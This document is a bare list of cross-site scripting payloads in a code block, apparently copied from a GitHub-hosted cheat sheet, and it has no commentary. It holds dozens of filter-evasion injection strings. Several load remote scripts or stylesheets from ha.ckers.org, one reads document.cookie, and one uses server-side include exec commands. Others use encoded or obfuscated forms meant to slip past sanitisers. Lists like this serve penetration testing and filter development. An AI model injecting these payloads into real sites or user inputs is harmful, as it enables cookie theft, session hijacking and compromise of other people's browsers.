 ```
<IMG SRC="livescript:[code]">
<BODY ONLOAD=alert('XSS')>
<BGSOUND SRC="javascript:alert('XSS');">
<BR SIZE="&{alert('XSS')}">
<LINK REL="stylesheet" HREF="javascript:alert('XSS');">
<LINK REL="stylesheet" HREF="http://ha.ckers.org/xss.css">
<STYLE>@import'http://ha.ckers.org/xss.css';</STYLE>
<META HTTP-EQUIV="Link" Content="<http://ha.ckers.org/xss.css>; REL=stylesheet">
<STYLE>BODY{-moz-binding:url("http://ha.ckers.org/xssmoz.xml#xss")}</STYLE>
<STYLE>@im\port'\ja\vasc\ript:alert("XSS")';</STYLE>
<IMG STYLE="xss:expr/*XSS*/ession(alert('XSS'))">
exp/*<A STYLE='no\xss:noxss("*//*");
xss:ex/*XSS*//*/*/pression(alert("XSS"))'>
<STYLE TYPE="text/javascript">alert('XSS');</STYLE>
<STYLE>.XSS{background-image:url("javascript:alert('XSS')");}</STYLE><A CLASS=XSS></A>
<STYLE type="text/css">BODY{background:url("javascript:alert('XSS')")}</STYLE>
<XSS STYLE="xss:expression(alert('XSS'))">
<XSS STYLE="behavior: url(xss.htc);">
¼script¾alert(¢XSS¢)¼/script¾
<META HTTP-EQUIV="refresh" CONTENT="0;url=javascript:alert('XSS');">
<META HTTP-EQUIV="refresh" CONTENT="0;url=data:text/html base64,PHNjcmlwdD5hbGVydCgnWFNTJyk8L3NjcmlwdD4K">
<META HTTP-EQUIV="refresh" CONTENT="0; URL=http://;URL=javascript:alert('XSS');">
<IFRAME SRC="javascript:alert('XSS');"></IFRAME>
<IFRAME SRC=# onmouseover="alert(document.cookie)"></IFRAME>
<FRAMESET><FRAME SRC="javascript:alert('XSS');"></FRAMESET>
<TABLE BACKGROUND="javascript:alert('XSS')">
<TABLE><TD BACKGROUND="javascript:alert('XSS')">
<DIV STYLE="background-image: url(javascript:alert('XSS'))">
<DIV STYLE="background-image:\0075\0072\006C\0028'\006a\0061\0076\0061\0073\0063\0072\0069\0070\0074\003a\0061\006c\0065\0072\0074\0028.1027\0058.1053\0053\0027\0029'\0029">
<DIV STYLE="background-image: url(&#1;javascript:alert('XSS'))">
<DIV STYLE="width: expression(alert('XSS'));">
<!--[if gte IE 4]><SCRIPT>alert('XSS');</SCRIPT><![endif]-->
<BASE HREF="javascript:alert('XSS');//">
<OBJECT TYPE="text/x-scriptlet" DATA="http://ha.ckers.org/scriptlet.html"></OBJECT>
<!--#exec cmd="/bin/echo '<SCR'"--><!--#exec cmd="/bin/echo 'IPT SRC=http://ha.ckers.org/xss.js></SCRIPT>'"-->
<? echo('<SCR)';echo('IPT>alert("XSS")</SCRIPT>'); ?>
<IMG SRC="http://www.thesiteyouareon.com/somecommand.php?somevariables=maliciouscode">
<META HTTP-EQUIV="Set-Cookie" Content="USERID=<SCRIPT>alert('XSS')</SCRIPT>">
<HEAD><META HTTP-EQUIV="CONTENT-TYPE" CONTENT="text/html; charset=UTF-7"> </HEAD>+ADw-SCRIPT+AD4-alert('XSS');+ADw-/SCRIPT+AD4-
<SCRIPT a=">" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT =">" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT a=">" '' SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT "a='>'" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT a=`>` SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT a=">'>" SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<SCRIPT>document.write("<SCRI");</SCRIPT>PT SRC="http://ha.ckers.org/xss.js"></SCRIPT>
<A HREF="http://66.102.7.147/">XSS</A>
0\"autofocus/onfocus=alert(1)--><video/poster/ error=prompt(2)>"-confirm(3)-"
veris-->group<svg/onload=alert(/XSS/)//
#"><img src=M onerror=alert('XSS');>
element[attribute='<img src=x onerror=alert('XSS');>
[<blockquote cite="]">[" onmouseover="alert('RVRSH3LL_XSS');" ]
%22;alert%28%27RVRSH3LL_XSS%29//
javascript:alert%281%29;
<w contenteditable id=x onfocus=alert()>
alert;pg("XSS")
<svg/onload=%26%23097lert%26lpar;1337)>
<script>for((i)in(self))eval(i)(1)</script>
<scr<script>ipt>alert(1)</scr</script>ipt><scr<script>ipt>alert(1)</scr</script>ipt>
```